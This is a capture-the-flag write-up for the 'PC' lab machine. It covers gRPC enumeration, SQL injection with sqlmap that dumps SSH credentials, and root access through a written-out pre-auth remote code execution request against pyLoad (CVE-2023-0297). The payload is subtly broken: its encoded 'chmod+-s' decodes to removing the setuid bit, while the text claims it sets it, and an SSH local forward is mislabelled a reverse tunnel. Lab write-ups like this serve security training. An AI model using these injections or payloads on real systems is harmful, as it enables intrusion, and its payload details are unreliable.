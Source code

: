 # PC
## Enumeration:

Start off with an nmap scan: 
```vim
nmap -sV -sC -v -Pn -p- --min-rate=10000 <IP_ADDR>
```

We get a response like this:
```vim
Nmap scan report for 10.10.11.214
Host is up (0.20s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown
```

Port 50051 is something that I have never seen so I try to look it up, and some results pointed me towards gRPC. Looking a bit further, I found out that there was an authentication API by gRPC which uses the 50051 port: https://grpc.io/docs/guides/auth/


I went looking for a gRPC UI because I did not want to code one in (apparently there are docs for that) and luckily I came across the following on [GitHub](https://github.com/fullstorydev/grpcui)

After installing that, you just have to run: `grpcui -plaintext <IP_ADDR>:<PORT>`

We get the following Web UI open up:
![Image](images/1.png)

We can see 3 methods in this `SimpleApp` service, being `LoginUser`, `RegisterUser` and `getInfo`.  We can first register a user using `RegisterUser` (if you try credentials like `admin:admin` you will see that it is already in use, thereby leaking a username). On the `LoginUser` method, you can sign in and get an ID along with a JWT Token like this:

![Image](images/2.png)

In the `getInfo` method, you have to submit the JWT token as well as an ID:
![Image](images/3.png)

However, this will only give you a response of `{"message": "Will update soon."}`, and if you try an ID like `1`, it will give you `{"message": "The admin is working hard to fix the issues."}`.

## Exploit:

Looking at the JWT token, we can see that it can be decoded to this:
![Image](images/4.png)

I saw that it uses the `HS256` encryption algorithm and tried to bruteforce the key with `jwt2john` but that didn't seem to help either.

After looking back at the whole picture, I thought about how the ID field probably is interacting with a database as the accounts you make get deleted after some time. I saved the web request like this:
```http
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:46367
Content-Length: 193
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Content-Type: application/json
Accept: */*
X-Requested-With: XMLHttpRequest
x-grpcui-csrf-token: Cm9yuktpwgUvGB14oJokEBYYd-O7EjVhBc81_E20JGg
sec-ch-ua-platform: "Linux"
Origin: http://127.0.0.1:46367
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:46367/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _grpcui_csrf_token=Cm9yuktpwgUvGB14oJokEBYYd-O7EjVhBc81_E20JGg
Connection: close

{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibG9sbG9sIiwiZXhwIjoxNjg1Nzg4ODA0fQ.ISyywniVjdl9SU2wJeaBmTixk6qAgTSPg1KB52N9h2A"}],"data":[{"id":"1*"}]}
```

I added the `*` after putting the `id` as `1` so as to tell SQLMap the point of injection. 

I ran `sqlmap -r request.req --batch` and got the following response:

![Image](images/5.png)

So the ID field is SQL injectable, so I try to dump the database using the `--dump` option

![Image](images/6.png)

We can see the `sau:HereIsYourPassWord1431` credentials. So I tried using the `getInfo` method with these credentials but it did not give me anything new. I tried to SSH into the machine with these credentials and it worked.

User flag can be found in `/home/sau/user.txt`

## Privilege Escalation:

I ran `ss -tunlp` and saw the following output:

```vim
sau@pc:~$ ss -tunlp
Netid     State      Recv-Q     Send-Q         Local Address:Port           Peer Address:Port     Process     
udp       UNCONN     0          0              127.0.0.53%lo:53                  0.0.0.0:*                    
udp       UNCONN     0          0                    0.0.0.0:68                  0.0.0.0:*                    
tcp       LISTEN     0          4096           127.0.0.53%lo:53                  0.0.0.0:*                    
tcp       LISTEN     0          128                  0.0.0.0:22                  0.0.0.0:*                    
tcp       LISTEN     0          5                  127.0.0.1:8000                0.0.0.0:*                    
tcp       LISTEN     0          128                  0.0.0.0:9666                0.0.0.0:*                    
tcp       LISTEN     0          128                     [::]:22                     [::]:*                    
tcp       LISTEN     0          4096                       *:50051                     *:*                    
```

Port `8000` and `9666` seem to be in use when there aren't any services that I know are using them. So I tried out `wget 127.0.0.1:8000` and got back an `index.html` which implies that we have to do port forwarding to access this webpage.

Run the following to make a reverse proxy tunnel:
```
ssh -L 8000:127.0.0.1:8000 sau@<IP_ADDR>
```

Now if we go to `http://127.0.0.1:8000`, we will see a PyLoad login page. Looking up vulnerabilities will bring you to this POC: https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad

This vulnerability revolves around `eval_js()`, a method defined in `js2py` which runs Javascript code passed via the `jk` request parameter. However, the exploit works via the `pyimport` statement which allows importing python code from Javascript, effectively allowing you to use python libraries like `os` to execute arbitrary commands.

To perform this exploit, we can send the following HTTP request via BurpSuite:
```http
POST /flash/addcrypted2 HTTP/1.1

Host: 127.0.0.1:8000

Content-Type: application/x-www-form-urlencoded

Content-Length: 110


jk=pyimport%20os;os.system("chmod+-s+/bin/bash");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa
```

The above request will run `chmod +s /bin/bash` allowing you to run `bash -p` and get a root shell. You will get a 500 error on sending the response, but this exploit is a blind code execution so your bash code will be executed.

Root flag can be found in `/root/root.txt`
